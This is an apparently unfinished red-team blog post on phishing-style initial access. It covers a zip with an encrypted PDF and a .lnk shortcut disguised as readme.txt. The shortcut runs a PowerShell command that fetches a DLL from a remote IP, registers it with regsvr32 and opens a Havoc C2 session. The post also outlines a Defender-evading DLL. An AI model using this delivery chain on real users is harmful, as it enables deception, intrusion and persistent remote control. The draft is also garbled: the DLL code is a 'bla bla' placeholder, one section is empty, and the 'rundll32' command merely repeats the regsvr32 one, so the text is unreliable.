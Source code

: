 ```yaml
---
title: "Initial Access Simulation" 
layout: "post"
---
```


In this specific scenario we will try to experiment and simulate a malware payload delivery using the following technique frequently used by Threat Actors (TA): 

- Zip Folder
- .LNK file execution
- DLL Execution 
- Havoc C2C comunications




In normal red team campain it is paramount to find a way to deliver the malicious payload and force the user to interact with our files. For this reason, in this particular scenario, we will try to simulate a .zip delivery containing two distinct file. The firs file inside the `.zip` will be an encrypted PDF document (sign contract, legal document, CV, just use your immagination), the second one will be a `.lnk` shortcut file masquerade as a text file (`readme.txt`). The idea here is the following: the user receive the files (could be via email or via MS Teams) and try to open up the encrypted pdf, which will ask the user to specify a password and then the user will open up the fake notepad file to recover the original PDF's password. By doint so the `.lnk` shortcut file in the background will execute the tasks necessary to deliver and execute our malicious DLL.  

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/2.JPG">
</p>



## 1) Introduction Initial Access 

Initial Access involves a range of techniques employed by threat actors to establish their initial presence within a target network. These methods encompass various entry vectors that serve as a foothold into the network. One particularly relevant technique is the employment of targeted spear-phishing campaigns. In these campaigns, attackers meticulously craft deceptive emails tailored to deceive recipients, often leading them to unknowingly disclose sensitive credentials or execute malicious attachments. 

This tactic holds significant relevance as successful spear-phishing attempts can grant attackers direct access to a network, bypassing many traditional security measures. In addition, threat actors frequently exploit vulnerabilities present in public-facing web servers to penetrate the network's defenses. It's noteworthy that initial access points gained through these techniques could grant ongoing access, such as using compromised accounts and external remote services. 

However, the effectiveness of these access points might diminish due to changing passwords or other security measures. Analyzing historical attacks by prominent threat actors reveals that these tactics are recurrently employed to breach networks, underscoring the significance of robust initial access security measures."


__Note:__ Please note that 



## 2) Defender Bypass Payload

We are not going into details on how we created this stelth DLL payload in this blogpost. Is it obviously possible to used any payload you want, the only assumption is that the paylod itself must be undetected by Defender AV and static signature. The DLL itself is pretty simple and perform the classic injection using the VirtualAlloc Windows API. However, to bypass static signature, the shellcode is encrypted with AES. Inside the DLL we have also included the AES Key to decrypt the shellcode as well as the AED Decryption. 

__Note:__ Since we are saving a payload into the disk we don't need to worry about AMSI at this stage. We are not operating in memory even though this can be considered not OPSEC safe. 

```cpp
	bla bla
```

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/2.JPG">
</p>

## 3) Weaponize Payload Delivery with LNK 

Firt of all we need to create a shortcut file that will be delivered with the encrypted PDF. Right click on your Desktop, click on create shortcut and you must enter the full path of `cmd.exe`, in this case it will be `C:\Windows\System32\cmd.exe`. After that we can specify readme.txt as a shortcut name. (remember we want the user to click on the shortcut file thinking it is a text file with the password inside). Now we need to click on the shortcut properties and changhe the icon to match to notepad.txt (default windows text editor). 

Now we can add the powershell command to download the DLL from a remote location. This must be specified inside the shortcut target menu interface. Then we can specify the output where to save the `.dll` file. For this we will leverage the `%TMP%` environment variable of Windows so we don't even need to know the local user accoun name and path. 

The full command specified inside the shortcut file is the following: 

```
cpp
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && regsvr32 %TMP%\h.dll 
```
__Note:__ The powershell download can be performed with the usual suspect IEX Download String function

Upon executing the `readme.txt` file on the attacker machine we can see a web request on the webserver. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/web requests.JPG">
</p>

Furthermore, as soon as the file is downloaded and executed we can see our reverse shellcode in the Havoc C2C framework. 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/hav1.JPG">
</p>

With some modification on the `.dll` file we can also perform the same activity using the `rundll32` windows binary. 


```
cpp
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && regsvr32 %TMP%\h.dll 
```
The command is pretty similar even though in this case we need to specify the export function name declared in our `.dll`

## 4) WrapUp 




## 5) Conclusion and Limitation

- Email gateway scanner 
- Proxy communications 
- PackMyPayload https://github.com/mgeeky/PackMyPayload


## References 

- https://medium.com/@andreabocchetti88 analyzing-javascript-malware-techniques-and-tools-for-effective-analysis-of-several-stages-37bb3be14cc6
